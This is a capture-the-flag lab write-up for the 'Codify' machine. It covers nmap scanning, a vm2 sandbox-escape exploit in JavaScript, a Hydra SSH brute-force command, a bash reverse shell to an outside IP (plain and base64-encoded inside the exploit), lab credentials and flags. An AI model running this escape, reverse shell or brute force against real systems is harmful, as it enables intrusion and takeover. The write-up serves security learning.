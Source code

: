 # Codify

## Initial Scan

```nmap
sudo nmap -T4 -v 10.129.82.199
sudo nmap -T4 -Pn -p 22,80,3000 -sV -sC -v 10.129.82.199 -oA Codify
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

## HTTP

Had to edit the host file to get the Webpage

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking out their About Us page

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Looking around for VM2 CVE's, found [this article on snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100) about RCE with VM2 after seeing a couple others. Testing the other PoC's I didn't get anywhere until I found this one. We can run commands on the host bypassing the VM.

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -al").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

whoami shows us the `svc` user. Also looking at `/etc/passwd` we see an additional user, `joshua`&#x20;

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### BruteForce

Trying to run Hydra against the user joshua for a password

```bash
hydra -l joshua -P /usr/share/wordlists/rockyou.txt -V ssh://10.129.82.199
```

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

`joshua:spongebob1`

### Obtaining shell

Working to get a shall as svc. Looking around for reverse shell, I found [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

```bash
bash -i >& /dev/tcp/10.10.14.53/1234 0>&1
```

Running it normally didn't work so I encoded it

```
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash"
```

Full command

```bash
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

## Foothold

We have shell as svc

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Seeing what permissions we have

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

## User Flag

After getting into shell from the SVC user, I got Joshuas password with hydra.

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

User flag: `c53cdd4688463871ba3f4020ab6f3ccb`

## Priv Esc

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

We have run the note of "User joshua may run the following commands on codify: (root) /opt/scripts/mysql-backup.sh" So looking at the shell file

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Running that as root as get

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Get [PSPY](https://github.com/DominicBreuker/pspy) Initiate another SSH session. Get pspy64 onto the target machine, run it, then run the `/opt/scripts/mysql-backup.sh` script

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Root pass: `kljh12k3jhaskjh12kjh3`

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Root flag: `4e43f866588b3b3433196af3cef8b768`
